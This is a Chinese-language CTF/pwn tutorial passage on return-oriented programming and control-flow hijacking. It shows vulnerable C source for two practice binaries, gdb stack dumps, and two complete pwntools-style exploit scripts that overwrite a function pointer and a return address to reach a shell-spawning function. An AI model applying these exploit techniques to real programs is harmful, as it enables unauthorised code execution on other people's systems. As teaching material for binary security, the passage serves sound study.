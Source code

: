 
>   ROP，即 return oriented programming（返回导向编程），关键在于劫持程序控制流后，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

## 控制流劫持

>   在二进制安全中，大部分的漏洞利用方式是劫持控制流，接着使程序按照攻击者的攻击思路运行下去。控制流劫持是一种危害性极大的攻击方式，攻击者能够通过它来获取目标机器的控制权，甚至进行提权操作，对目标机器进行全面控制。当攻击者掌握了被攻击程序的内存错误漏洞后，一般会考虑发起控制流劫持攻击。
>
>   控制流的劫持意味着攻击者劫持了 PC（program counter）寄存器，从存在漏洞的程序到控制流劫持也是 pwn 的重点，实现这一目标的方法有很多，但总是离不开跳转（包括函数返回、函数指针的调用等）。

### 例题 chp1-0-hellopwner

先来看一个简单的例子，这也是本章真正意义上的第一道 pwn 题（见[附件文件夹-chp1-0-hellopwner](../attachments/chp1-0)）：

>   读者可以尝试先不看源码，把 elf 文件拖到 ida64 中试试能不能自己找到漏洞所在。
>
>   这里给一点提示：这个程序中有不只一处漏洞，读者可以关注：`对读入的字符串处理不当导致的缓冲区溢出` 以及 `对整数处理不当导致的负数溢出`。

回到这个例子中，由于编译时采用了 `-static -no-pie` 的选项，因此地址都是固定的，这无疑给我们的利用带来了很大的便利：利用漏洞劫持控制流时，可以直接来到目标函数处，而不需要额外的手段去泄露程序地址和 libc 地址。

而主要漏洞出现在 get_a_num 函数中：

```c
__int64 get_a_num()
{
  gets(input);
  return atoi(input);
}
```

这里需要注意的一点是，gets 函数往往是造成缓冲区溢出的罪魁祸首，它在遇到字符串中的 `\x00` 等字符时并不会停下，而会一直向缓冲区中读入数据直到换行符的出现。

以及 run 函数中：

```c
// ...
int cmd;
// ...
cmd = get_a_num();
// ...
return ((__int64 (__fastcall *)(__int64, _QWORD, _QWORD))cmdtb[cmd])(buf_0, v17, v15);
```

也就是说这里 cmd 是一个 int 类型，可以为负数，这就导致了调用函数指针 `cmdtb[cmd]()` 时能调用它前面的缓冲区上，来到 .bss 段上发现 cmdtb 前面正是上面 gets 的缓冲区：

```sh
.bss:00000000004C4300                 public input
.bss:00000000004C4300 ; u32 input[64]
.bss:00000000004C4300 input           dd 40h dup(?)           ; DATA XREF: get_a_num+8↑o
.bss:00000000004C4300                                         ; get_a_num+19↑o
.bss:00000000004C4400                 public cmdtb
.bss:00000000004C4400 ; __int64 cmdtb[]
.bss:00000000004C4400 cmdtb           dq ?
```

于是很自然地可以想到，用 get_a_num 控制输入，用 cmdtb 对函数指针的调用去劫持程序控制流。

回到函数列表中，发现本道例题设计时提供了一个名为 flag1 的函数但是并没有被调用，那我们只需要按照上述思路劫持控制流到 flag1 的地址即可，exp_flag1.py 如下：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port
from pwncli import *
cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")
def cmd(data):
    ru(b'cmd> ')
    sl(data)
def call_func(data, idx, key=b""):
    cmd(data)
    ru(b'offset: ')
    sl(i2b(idx))
    if data[:2] == b"1\x00":
        ru(b'data: ')
        sl(key)

call_func(b"-31\x00".ljust(8, b"\x00") + p64(elf.symbols["flag1"]), 0)
ia()
```

读者也可以跟着 gdb 调试一下，把断点设置在 `0x401f36 <run+189>    call   r8` 的地方，就可以看到程序的 rip 寄存器确实被劫持到了 flag1 函数的地方继续执行。

>   当然这不是这道题的全部，读者也可以考虑：我们能否利用其它办法，完全获取这个程序的控制权，让它运行我们的恶意代码（shellcode）呢？

---

## ret2text

>   经过上面的例子，读者已经初步了解了程序的执行流程是怎么回事，接下来回到本章主题 ROP 上。

rop 中的 R 代表 return，即函数返回时调用的汇编语句 ret，读者不妨结合 [0.4 程序是怎么运行的](../0.准备工作/0.4.elf.md) 中对函数调用机制的介绍来进行思考：既然函数返回地址是存放在栈上的，若攻击者通过程序漏洞在函数里面修改了该函数的返回地址会发生什么？

下面给出例题，读者不妨构造不同的输入，结合调试进行思考：

### 例题 chp1-1-ret2text

例题代码很简单，这里给出源码：

```c
// compiled with: gcc -no-pie -fno-stack-protector ./ret2text.c -o ./ret2text
// author: @eastXueLian
// date:   2023-03-25

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void gift() {
    asm("pop %rax");
    system("/bin/sh");
}
int main() {
    char buf[0x20];
    puts("Give me your data: ");
    read(0, buf, 0x100);
    return 0;
}
```

值得注意的是，这里编译时选项 -no-pie 关闭了地址随机化的保护，-fno-stack-protector 选项关闭了栈上 canary 的保护，这免除了我们泄露地址和 canary 的麻烦。

main 函数中是存在栈溢出漏洞的：栈上缓冲区 buf 长度为 0x20，而接下来用 read 函数读入了 0x100 个字节的内容，可以使用 gdb 进行调试，随便敲几个 a 进去，得到程序读取输入后栈布局如下：

```sh
pwndbg> stack
00:0000│ rsi rsp 0x7ffd7906b370 ◂— 'aaaaaaaaaa\n'
01:0008│         0x7ffd7906b378 ◂— 0xa6161 /* 'aa\n' */
02:0010│         0x7ffd7906b380 —▸ 0x7ffd7906b480 ◂— 0x1
03:0018│         0x7ffd7906b388 ◂— 0x0
04:0020│ rbp     0x7ffd7906b390 ◂— 0x0
05:0028│         0x7ffd7906b398 —▸ 0x7fe443e13083 (__libc_start_main+243) ◂— mov    edi, eax
06:0030│         0x7ffd7906b3a0 —▸ 0x7fe44402e620 (_rtld_global_ro) ◂— 0x50f5500000000
```

上面 rsi 和栈顶指针 rsp 都指向 buf 的起始地址，栈底指针 rbp 指向 rsp+0x20 的位置，而 rbp 再下面一个位置明显指向一段代码，这就是返回地址了。

>   函数中局部变量大小为 0x20 个字节，而返回地址却在 rsp+0x28 的位置，那 rsp+0x20 的位置，即 rbp 现在所指的位置上放着什么？
>
>   事实上，这个位置是存放上个函数 rbp 的，这在章节 0.4 中已经有所介绍，对此感到疑惑的同学可以参考前面的内容来理解栈帧的结构。
>
>   由于 main 函数此时是程序中调用的第一个有完整栈帧结构的函数，因此 rbp 所指内存地址上的值是 0.

本例中我们使用一些字符来占位，最终实现修改函数返回地址的目标，exp.py 如下：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(elf.symbols['gift'])
s(payload)

ia()
```

可以进行调试，发现 read 过后栈上布局如下：

```sh
│pwndbg> stack
00:0000│ rsi rsp 0x7ffd5ad25db0 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓            4 skipped
05:0028│         0x7ffd5ad25dd8 —▸ 0x401176 (gift) ◂— endbr64
06:0030│         0x7ffd5ad25de0 —▸ 0x7f74b9060620 (_rtld_global_ro) ◂— 0x50f5500000000
```

可以看到返回地址已经成功被覆盖为 gift 函数的地址，继续运行即可劫持程序执行流程到 gift 函数中，最终 getshell.

上面我们劫持控制流，使程序返回到代码段已有函数的技巧也被称作 ret2text.

---
